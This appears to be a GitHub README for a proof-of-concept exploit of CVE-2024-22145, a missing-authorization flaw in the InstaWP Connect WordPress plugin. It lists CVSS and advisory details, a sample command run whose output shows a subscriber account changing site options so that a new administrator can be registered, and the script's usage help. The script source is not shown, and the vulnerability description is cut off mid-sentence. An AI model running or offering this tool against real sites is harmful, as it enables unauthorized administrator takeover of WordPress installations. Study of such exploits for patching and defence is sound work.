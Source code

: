 # CVE-2024-22145
InstaWP Connect &lt;= 0.1.0.8 - Missing Authorization to Arbitrary Options Update (Subscriber+)

### Description:
The InstaWP Connect – 1-click WP Staging & Migration plugin for WordPress is vulnerable to unauthorized modification of data due to a missing capability check on the save_management_settings function in all versions up to, and including, 0.1.0.8. This makes it possible for authenticated attackers, with subscriber access and above, to modify

```
Severity: high
CVE ID: CVE-2024-22145
CVSS Score: 8.8
CVSS Metrics: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H
Plugin Slug: instawp-connect
WPScan URL: https://www.wpscan.com/plugin/instawp-connect
Reference URL: https://www.wordfence.com/threat-intel/vulnerabilities/id/6aa4fd08-a1b1-4f61-a9d1-9812071b61c9?source=api-prod
```

POC
---

```
$ python3 CVE-2024-22145.py -u http://wordpress.lan -un user -p useruser1
The plugin version is below 0.1.0.9.
The plugin version is 0.1.0.7
Vulnerability check: http://wordpress.lan
Logged in successfully.
Option set successfully: http://wordpress.lan/wp-admin/admin-ajax.php
Option set successfully: http://wordpress.lan/wp-admin/admin-ajax.php
You can now register a user as an admin user. Remember to run --fix yes after you have registered to prevent others exploiting the site.
```

Usage
---

```
usage: CVE-2024-22145.py [-h] -u URL [-un USERNAME] [-p PASSWORD] [-f FIX]

InstaWP Connect <= 0.1.0.8 - Missing Authorization to Arbitrary Options Update Description: The InstaWP Connect – 1-click WP Staging & Migration plugin for WordPress is vulnerable to unauthorized modification of data due to a missing
capability check on the save_management_settings function in all versions up to, and including, 0.1.0.8. This makes it possible for authenticated attackers, with subscriber access and above, to modify CVE-2024-22145

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     Website URL
  -un USERNAME, --username USERNAME
                        WordPress username
  -p PASSWORD, --password PASSWORD
                        WordPress password
  -f FIX, --fix FIX     Reset after Exploit
```
